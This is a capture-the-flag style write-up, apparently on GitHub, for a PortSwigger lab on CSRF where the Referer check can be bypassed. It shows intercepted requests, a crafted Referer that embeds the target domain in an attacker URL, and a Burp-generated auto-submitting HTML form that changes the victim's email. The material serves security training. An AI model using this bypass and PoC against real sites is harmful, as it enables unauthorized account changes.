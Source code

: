 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0f956d77-ffc7-464c-ada5-9e501a0ec626)


## Overview :

Validation of Referer can be circumvented

Some applications validate the Referer header in a naive way that can be bypassed. For example, if the application validates that the domain in the Referer starts with the expected value, then the attacker can place this as a subdomain of their own domain:
http://vulnerable-website.com.attacker-website.com/csrf-attack

Likewise, if the application simply validates that the Referer contains its own domain name, then the attacker can place the required value elsewhere in the URL:
http://attacker-website.com/csrf-attack?vulnerable-website.com

>  Although you may be able to identify this behavior using Burp, you will often find that this approach no longer works when you go to test your proof-of-concept in a browser. In an attempt to
>  reduce the risk of sensitive data being leaked in this way, many browsers now strip the query string from the Referer header by default.
>  
>  You can override this behavior by making sure that the response containing your exploit has the `Referrer-Policy: unsafe-url` header set (n**ote that Referrer is spelled correctly in this case,
>  just to make sure you're paying attention!**). This ensures that the full URL will be sent, including the query string. 

## Solution :

Log in as wiener using the credentials - `wiener:peter`

We get this page to update email.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0120a0f3-69b6-40fa-a27e-93d8960a0944)

When we click update email, browser sends a request like this,

```http
POST /my-account/change-email HTTP/2
Host: 0a1c0080040de829801c712900d600a9.web-security-academy.net
Cookie: session=Axf9Yo6ZjuM9B0wD9vACJtH46iM0ASK1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0a1c0080040de829801c712900d600a9.web-security-academy.net
Referer: https://0a1c0080040de829801c712900d600a9.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=test%40test.com
```
Here the application verifies the request by comparing the `Host:` and `Referer` header.

Our goal is to bypass this referrer header validation . We need to be able to somehow place the attacker domain ie.(exploit server) in the referrer header 

- **Exploit server domain - exploit-0acd00e30437e84180cd7051010b004e.exploit-server.net**


#### Check which portion of the referer header is the application validating


Lets us give the attacker domain in the referer header by giving the attacker.com as the domain name and the original domain as a directory portion.


```http
Referer: https://attacker-domain.com/?0a1c0080040de829801c712900d600a9.web-security-academy.net/my-account
```

We get a `301 Redirect`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/707ed98c-6432-44eb-bf19-214bd3aac9e9)

> This means the application takes this referer header and instead of validating the entire referer header , it just checks if the domain name in HOST header is contained in the referer header.
> This is done with the help of some regex matching (**expected-domain**) .


**Generate POC -**

Replace the attacker domain with exploit server domain. Send the request to POC generator,

> Add the `Auto-submit script`

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a1c0080040de829801c712900d600a9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```





















